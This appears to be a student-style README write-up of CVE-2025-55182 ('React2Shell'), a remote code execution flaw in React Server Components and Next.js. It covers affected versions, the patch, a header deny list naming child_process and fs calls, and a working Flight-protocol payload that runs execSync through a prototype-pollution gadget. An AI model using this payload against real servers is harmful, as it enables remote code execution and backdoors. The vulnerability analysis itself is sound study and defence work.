

# CVE-2025-55182 (React2Shell)

## Introduction
**Distibution**:
1) Sergey Razmakhov: researcher, programmer
2) Sergei Glazov: tester, assistance, documentarian

**Our goal**: We want to show you that even very popular frameworks have their own unexpected behaviors that can cause problems, such as the example we are going to provide. In our case, this is an attack that was rated as 10/10 dangerous. This will allow hackers to execute the code remotely and eventually they can even use it to do reverse shell.

## i. attack surface and scenarios description
applications using affected versions of the React Server Components implementation may process untrusted input in a way that allows an attacker to perform remote code execution:

- react-server-dom-parcel (19.0.0, 19.1.0, 19.1.1, and 19.2.0)
- react-server-dom-webpack (19.0.0, 19.1.0, 19.1.1, and 19.2.0)
- react-server-dom-turbopack (19.0.0, 19.1.0, 19.1.1, and 19.2.0)
- Next.js with versions ≥14.3.0-canary.77, ≥15 and ≥16

the following attack scenario is possible:

1. scan for vulnerable Next.js application.
2. send crafted RSC Flight payload.
3. deploy reverse shell.
4. establish backdoor persistence.

## ii. vulnerabilities description

| property | value |
|--------|----------------|
| CVE ID | CVE-2025-55182 |
| CWE    | CWE-502: Deserialization of Untrusted Data |
| CVSS score | 10.0 (critical) |
| Discovery Date | 29.11.2025 |

the vulnerability arises from improper validation in the React Serve Components Flight protocol parser. the server fails to validate payload structure during deserialization


## iii. environment preparation

a simple [Docker Compose](compose.yaml) to deploy standard Next.js app with vulnerable version and attacker container that executes [exploit.sh](exploit.sh).

## iv. exploits steps and defense mechanisms observation

demo: [Google Drive](https://drive.google.com/file/d/1Smbl1fkY7TfKVKP7mB-8Cri9c2pHawQt/view?usp=sharing)

1. deploy sample Next.js application with `docker compose up -d`.
2. prepare malicious payload with `id` command to be executed and appropriate headers.
3. make HTTP request to Next.js server using Burp, curl, etc.
4. check the `x-action-redirect` header in the response, which contains the execution result of the id command:



first of all, the vulnerable packages should be upgraded to the patched version:

- React: 19.0.1, 19.1.2, 19.2.1
- Next.js: 15.0.5, 15.1.9, 15.2.6, 15.3.6, 15.4.8, 15.5.7, 15.6.0-canary.58, 16.0.7

while migrating, the POST request with the following headers / body parameters should be discarded:

```
#constructor
#__proto__
#prototype
vm#runInThisContext
vm#runInNewContext
child_process#execSync
child_process#execFileSync
child_process#spawnSync
module#_load
module#createRequire
fs#readFileSync
fs#writeFileSync
s#appendFileSync
```

the vulnerable piece of code is the following:

```ts
export function requireModule<T>(metadata: ClientReference<T>): T {
   const moduleExports = parcelRequire(metadata[ID]);
   return moduleExports[metadata[NAME]];
}
```

the problem is that in JavaScript, when you use `obj[key]`, it doesn't just check the object's own properties - it also traverses the prototype chain. an attacker could exploit this by setting `metadata[NAME]` to special prototype properties like `__proto__`.

the [patched](https://github.com/facebook/react/pull/35277) version uses `hasOwnProperty.call()` check to check if the property exists as an own property of the module exports object.

```ts
export function requireModule<T>(metadata: ClientReference<T>): T {
   const moduleExports = parcelRequire(metadata[ID]);
-  return moduleExports[metadata[NAME]];
+  if (hasOwnProperty.call(moduleExports, metadata[NAME])) {
+    return moduleExports[metadata[NAME]];
+  }
+  return (undefined: any);
 }
```

## v. difficulties faced

1. understanding React Flight Protocol for serialization. the following "chunks" that is being passed via form data:

    ```ts
    files = {
        "0": (None, '["$1"]'),
        "1": (None, '{"object":"fruit","name":"$2:fruitName"}'),
        "2": (None, '{"fruitName":"cherry"}'),
    }
    ```

    deserializes to the following on the server:

    ```ts
    { object: 'fruit', name: 'cherry' }
    ```

2. accomplishment of prototype pollution. consider this snippet:

    ```ts
    files = {
        "0": (None, '{"then": "$1:__proto__:then"}'),
        "1": (None, '"$@0"'),
    }
    ```

    we can reference the crafted chunk 0 in chunk 1 by using the `$@` syntax, which returns the "raw" chunk, not it's resolved value. this is where lack of `hasOwnProperty.call()` makes difference.

    also, this payload allows us to overwrite overwrite our own `.then()` with `Chunk.prototype.then`, which exists, since Chunks are thenables. the JS runtime then will unravel this promise.

    
3. understanding of how malicious payload is being executed. e.g., consider this chunk:

    ```ts
    crafted_chunk = {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": -1,
        "value": '{"then": "$B0"}',
        "_response": {
            "_prefix": f"process.mainModule.require('child_process').execSync('calc');",
            "_formData": {
                "get": "$1:constructor:constructor",
            },
        },
    }

    files = {
        "0": (None, json.dumps(crafted_chunk)),
        "1": (None, '"$@0"'),
    }
    ```

    there is a call gadget in the handling of blob data with the `$B` prefix in the flight protocol. `_response` field allows us to control the remote code to be executed.

## vi. conclusion, your contemplations and judgement

this vulnerability is extremely easy to reproduce. it only requires making a POST HTTP request with the desired payload (numerous PoCs available [here](https://github.com/Malayke/Next.js-RSC-RCE-Scanner-CVE-2025-66478)), and it affects a wide range of applications that use React Server Components. 

however, actual technical details and the internal reasons behind why this vulnerability is possible are complex (at least for a person that is not much into web) and requires decent amount of time to investigate.

This is indeed a very interesting exploit. And i can only guess how people have found it out. Albeit I didn't get the knack for hacking, it was incredibly interesting for us to investigate.

Thank you very much for your attention!
